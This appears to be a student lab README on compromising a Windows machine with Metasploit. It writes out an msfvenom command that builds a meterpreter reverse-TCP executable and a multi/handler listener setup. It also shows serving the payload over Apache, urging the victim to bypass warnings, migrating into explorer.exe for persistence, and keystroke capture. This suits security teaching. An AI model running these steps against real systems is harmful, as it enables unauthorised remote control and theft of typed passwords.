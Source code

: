 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/9f114080-577e-4c4d-89a5-c8e1aee90f9b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/user-attachments/assets/a0433240-4454-4e40-9bea-151b21c11e14)


copy the fun.exe into the apache /var/www/html folder


![image](https://github.com/user-attachments/assets/4568276e-b714-4120-8f87-bc8a8e5af006)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2bec5ee3-c7da-46dd-850d-78b9b1a2b5f8)



Check the status of apache2

![image](https://github.com/user-attachments/assets/ec9a2d75-8aa7-4d07-9398-cfc1d257eb33)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/95bcd6da-385e-433e-a4f5-e35cdd9101fc)


Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/f0ff5564-496c-450a-8808-2db975e874a4)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![6 7](https://github.com/user-attachments/assets/76927041-303e-4d38-a66e-8bd6e89d6563)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/049996e8-1ca7-41cb-a270-e2df3b357376)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/07d9f86d-ca95-427a-b005-9e6969354176)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
![6 10](https://github.com/user-attachments/assets/66442dd7-aedd-4c09-8d4c-4100ae0ac911)

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/f5776fc3-80cb-4ae1-8ba0-f8bf1cd4771a)
![6 14](https://github.com/user-attachments/assets/781f8912-c6e5-4a38-9f49-da7c39338628)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/1ca75d17-301e-4c88-9082-6bfcfab05318)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

